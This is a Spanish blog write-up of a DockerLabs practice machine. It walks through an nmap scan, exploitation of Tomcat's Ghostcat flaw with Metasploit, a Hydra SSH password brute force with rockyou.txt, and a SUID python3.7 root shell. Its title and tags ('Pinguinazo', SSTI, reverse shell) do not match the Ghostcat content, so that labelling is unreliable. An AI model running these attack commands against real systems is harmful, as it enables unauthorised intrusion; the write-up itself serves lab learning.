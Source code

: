 ```yaml
---
layout: post
title: Maquina Pinguinazo
subtitle: DockerLabs
header-img: img/in-post/2020-10-07/upload-dl.png
header-style: text
catalog: true
tags:
  -  DockerLabs
  -  SSTI
  -  NetCat
  -  Escalado de privilegios
  -  Reverse Shell
---
```


#### **Información**
- **Máquina:** Pinguinazo
- **Plataforma:** [DockerLabs](https://dockerlabs.es/)
- **Creador:** El Pingüino de Mario
- **SO:** Linux
- **Dificultad:** `Facil`{:.success}

#### **Configuración Entorno**
Primeramente, como siempre para configurar las máquinas de DockerLabs, exportamos los ficheros auto_deploy.sh y en este caso pinguinazo.tar.
Para ejecutarlo utilizamos el siguiente comando:
```bash
sudo bash auto_deploy.sh pinguinazo.tar
```
![Image 1](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img1.png)

**auto_deploy.sh:** este archivo se encarga de desplegar la máquina mediante docker y, una vez presionamos `ctrl+c`{:.info} pasa a un proceso de borrado, todo automático, sin necesidad de tener conocimientos de docker.

**pinguinazo.tar:** contiene todo el contenido de la máquina docker; es el corazón, donde está la máquina víctima.

#### **Reconocimiento**
Lo primero que realizamos es lanzar un ping contra la IP de la máquina para comprobar que tenemos conectividad.
```bash
ping -c 1 172.17.0.2
```
![Image 2](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img2.png)

Podemos observar que el ttl es de 64, por tanto, como norma general podemos afirmas que se trata de una maquina linux.
Una vez comprobada la conectividad, iniciaremos un escaneo con nmap, para detectar puertos abiertos y lo almacenaremos en un fichero llamado scan, con el siguiente comando:
```bash
nmap -p- --open -sV -sC -sS --min-rate=5000 -vvv -n -Pn -oN scan
```
- **-p-** --> Busqueda de puertos abiertos
- **--open** --> Enumera los puertos abiertos
- **-sS** --> Es un modo de escaneo rápido
- **-sC** --> Que use un conjunto de scripts de reconocimiento
- **-sV** --> Que encuentre la versión del servicio abierto
- **--min-rate=5000** --> Hace que el reconocimiento aun vaya más rápido mandando no menos de 5000 paquetes
- **-n** --> No hace resolución DNS
- **-Pn** --> No hace ping
- **-vvv** --> Muestra en pantalla a medida que encuentra puertos (Verbose)
![Image 3](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img3.png)
![Image 4](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img4.png)

Vemos que tiene abiertos los puertos **22 (SSH), 8080 y 8009**.
Gracias a los scrips de nmap nos detecta lo siguiente:
-	Puerto 22: `OpenSSH 7.9p1`{:.error}
-	Puerto 8009: `Apache Jserv (Protocol v1.3)`{:.error}
-	Puerto 8080: `Apache Tomcat 9.0.30`{:.error}

#### **Explotación**
Descartamos de momento atacar al puerto 22 ya que cuenta con una versión de OpenSSH no vulnerable, por tanto, investigamos el puerto 8009 que corre un Apache Jserv. Encontramos la siguiente referencia al respecto en [HackTriks](https://book.hacktricks.xyz/v/es/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp), donde se detalla que versiones anteriores a 9.0.31, 8.5.51 y 7.0.100 de Apache Tomcat, si el puerto AJP está expuesto -como es el caso aquí, dado que tenemos la versión 9.0.30 y el puerto 8009 expuesto-, presentan una vulnerabilidad conocida como `Ghostcat`{:.info} (CVE-2020-1938).

En el propio HackTik encontramos un script en Python que permite explotar esta vulnerabilidad, yo he preferido buscarlo en `Metasploit`{:.info}.

Arrancamos Metasploit con el comando `msfconsole`{:.info}.
Una vez dentro buscamos los exploits que hagan referencia a Apache Jserv
```bash
msf6 > search exploit Apache Jserv
```
Encontramos el exploit `tomcat_ghostcat`{:.info}, lo seleccionamos.
```bash
msf6 > use 0
```
Y revisamos los parámetros necesarios para el exploit.
```bash
msf6 > show options
```
![Image 5](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img5.png)

Establecemos la IP de la maquina víctima y ejecutamos el exploit.
```bash
msf6> set RHOST 172.17.0.2
msf6> exploit
```
![Image 6](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img6.png)

Podemos ver que tenemos un usuario llamado Jerry.
Teniendo el usuario podríamos tratar de aplicar fuerza bruta para lograr acceso por SSH a la maquina víctima, ya que como nos mostró el escaneo de nmap, contamos con el Puerto 22 abierto.
Realizamos el ataque con Hydra al usuario Jerry utilizando el diccionario de contraseñas comunes `rockyou.txt`{:.info}.
```bash
hydra 172.17.0.2 ssh -s 22 -l jerry -P /usr/share/wordlists/rockyou.txt -f -I -t 64
```
![Image 7](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img7.png)

Y efectivamente nos encuentra la contraseña `chocolate`{:.success} :chocolate_bar: para el usuario Jerry
Accedemos por SSH a la maquina víctima.

![Image 8](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img8.png)
Una vez dentro trato de ejecutar sudo -l para listar los privilegios que tiene el usuario “Jerry” en el sistema mediante el comando sudo. Esto significa que muestra qué comandos puede ejecutar el usuario Jerry con privilegios elevados utilizando sudo, así como cualquier restricción aplicada a esos privilegios.
Pero nos indica que sudo no está instalado en el sistema, por tanto, pruebo a buscar los archivos con permisos SUID en el sistema.
```bash
jerry@a8385f5ecbd3:~$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/su
/bin/umount
/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/perl5.28.1
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/perl
/usr/bin/chsh
/usr/bin/python3.7
/usr/bin/python3.7m
```
Consultamos [https://gtfobins.github.io/](https://gtfobins.github.io/) para encontrar una manera de elevar privilegios con Python. Luego, ejecutamos el siguiente comando:
```bash
/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![Image 9](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img9.png)

Y efectivamente, ya somo `root`{:.error}, por lo tanto, `¡¡¡maquina vulnerada!!!`{:.success} :sunglasses::sunglasses::sunglasses:

#### **Eliminación del entorno**

Para borrar la máquina solo debemos ir a la consola donde lo desplegamos y presionar `ctrl+c`{:.info} y eliminaría y borraría todo rastro de la máquina víctima en nuestro sistema LINUX.

![Image 10](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img10.png)

`¡¡¡Espero que os haya gustado y nos vemos en la próxima!!!`{:.success}
